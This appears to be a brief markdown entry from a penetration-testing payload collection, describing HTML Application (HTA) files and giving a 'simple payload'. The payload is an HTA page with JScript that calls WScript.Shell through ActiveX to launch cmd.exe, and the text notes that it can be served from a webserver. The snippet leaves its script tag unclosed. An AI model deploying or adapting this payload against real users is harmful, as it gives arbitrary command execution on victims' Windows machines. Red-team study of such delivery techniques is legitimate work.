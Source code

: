 # HTML Application (HTA)
Dynamic html pages containing JScript and VBScript.

## Simple Payload
This will attempt to run `cmd.exe`. This can be served from a webserver.

```
<html>
    <body>
        <script>
            var c = 'cmd.exe';
            new ActiveXObject('WScript.Shell').Run(c);
    </body>
</html>
```


